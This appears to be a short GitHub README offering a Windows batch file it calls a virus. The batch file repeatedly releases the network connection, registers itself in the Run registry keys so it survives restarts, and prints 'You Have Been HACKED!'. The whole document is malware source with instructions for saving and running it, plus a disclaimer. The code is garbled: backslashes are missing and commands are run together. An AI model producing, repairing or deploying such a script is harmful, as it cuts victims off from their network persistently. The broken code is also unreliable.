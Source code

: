 # Disable Windows Internet Permanently Bat File Virus
This code will Disable Internet Of The System After Executing The Files. 
<br>
<br>
copy the following code in notepad and save that with .bat extention
```bat
echo @echo off>c:windowswimn32.bat
echo break off>c:windowswimn32.bat echo
ipconfig/release_all>c:windowswimn32.bat
echo end>c:windowswimn32.batreg add
hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /freg add
hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /fecho You Have Been HACKED!
PAUSE
```
# URL
```link
https://oceanofanythingofficial.github.io/disable-internet-parmanently-bat-file-virus/
```
# Disclaimer
This Is Not A Toy. This Is A Virus. Dont Try It On Any Real Hardware. I Am Not Responsible for Any Misuse Of This Virus.

